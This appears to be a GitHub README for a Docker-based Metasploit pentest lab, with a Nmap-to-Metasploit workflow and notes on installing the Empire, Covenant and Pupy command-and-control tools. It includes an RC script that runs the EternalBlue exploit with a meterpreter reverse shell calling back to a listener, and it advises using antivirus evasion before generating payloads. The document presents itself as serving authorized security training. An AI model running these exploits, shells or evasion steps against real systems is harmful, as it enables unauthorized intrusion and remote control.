 <h1 align="center">
  <img src="https://www.metasploit.com/includes/images/metasploit-logo-light-external-use.svg" height="100"/><br>
  Metasploit Lab in Docker 🐳💥
</h1>

<p align="center"><strong>Build a professional, automated pentest lab using Docker, Bash, Metasploit, Empire, Covenant, and Pupy</strong></p>


---

## 🎯 Overview

This repository provides a **complete, portable, and automated lab environment** for ethical hacking and red teaming using:

- 🔹 Metasploit Framework
- 🔹 Docker + Bash automation
- 🔹 Example exploits and payloads
- 🔹 Nmap → Metasploit automation
- 🔹 Empire, Covenant, and Pupy integrations
- 🔹 Cheatsheets and best practices

---

## 🚀 Quick Start

```bash
git clone https://github.com/YOUR_USERNAME/metasploit-lab-docker.git
cd metasploit-lab-docker
chmod +x scripts/*.sh docker/entrypoint.sh
docker-compose up --build

Then in the container:
msfconsole
```

---

## 📦 Project Structure

```
metasploit-lab-docker/
├── docker/
│   ├── Dockerfile          # Kali + Metasploit image
│   └── entrypoint.sh       # Launch script
├── scripts/
│   ├── install_metasploit.sh
│   ├── update_metasploit.sh
│   ├── start_console.sh
│   └── exploits/
│       └── smb_ms17_010.rc # Example EternalBlue
├── examples/
│   ├── ms17-010_exploit.md
│   └── reverse_shell_payloads.md
├── cheatsheet/
│   └── metasploit_cheatsheet.md
├── docker-compose.yml
└── README.md
```

---

## 🛠️ Scripts Breakdown

### 🔧 install_metasploit.sh
Installs Metasploit and initializes DB.

✅ Use for bare-metal install (non-Docker).

### 🔁 update_metasploit.sh
Updates MSF modules and DB.

### 💣 start_console.sh
Opens msfconsole from CLI.

---

## 📂 RC Script: smb_ms17_010.rc
```rc
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.105
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

## 🧪 Use-Cases

| Scenario | Tools |
|----------|-------|
| 🏠 Home lab | Docker, MSF, vulnerable VMs |
| 🧠 CTF prep | RC scripts, custom payloads |
| 🧪 Exploit dev | MSF, GDB, Python |
| 🛡️ AV evasion | Veil, Shellter, custom obfuscation |
| 🔄 Red team automation | Empire, Pupy, Covenant |

---

## 🔄 Nmap → Metasploit Automation
### 🌀 How it works
```bash
nmap -oX scan.xml 192.168.1.0/24
db_import scan.xml
hosts
services
```

Then start picking exploits based on open ports:
```bash
search type:exploit name:smb
use exploit/windows/smb/ms17_010_eternalblue
```

---

## 🧠 Cheatsheet Highlights
✅ See full metasploit_cheatsheet.md

| Task | Command |
|------|---------|
| Load module | `use <exploit>` |
| Set options | `set RHOSTS <ip>` |
| Payloads | `set PAYLOAD windows/meterpreter/reverse_tcp` |
| Run exploit | `exploit` |
| Session mgmt | `sessions`, `background` |

---

## 🔌 Empire, Covenant, Pupy Integration
These are external C2 frameworks to extend post-exploitation:

### 🦠 Empire (Python/PowerShell C2)
- Web UI & API
- Great for Windows domain attacks

Install inside container:
```bash
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire && ./setup/install.sh
./empire
```

### 🔐 Covenant (.NET C2)
- Requires .NET Core + SQL backend
- Use Docker or install separately
```bash
docker pull cobbr/covenant
```

### 🐶 Pupy (Python RAT)
- Cross-platform RAT
- Payload obfuscation built-in

Install:
```bash
git clone https://github.com/n1nj4sec/pupy.git
cd pupy && ./pupy.sh
```

---

## 📚 Best Practices

### ✅ Do:
- Use VPN or VLAN to isolate test targets
- Maintain an rc/ script library
- Use AV-evasion techniques before generating payloads
- Monitor outbound traffic for detection

### 🚫 Don't:
- Run payloads on production systems
- Store unencrypted payloads long-term
- Use these tools without authorization

---

## 🪪 License
MIT © 2025 C04CH

---

## ❤️ Contributions Welcome
Submit PRs to add:
- More exploits or RC scripts
- Obfuscation examples
- Empire/Covenant automation

---

## ⚠️ Legal Disclaimer
This project is for educational and authorized security testing only. Using this outside of lab environments may violate local laws.

Made with 🧠 and ⚡ by [Your Name]
```
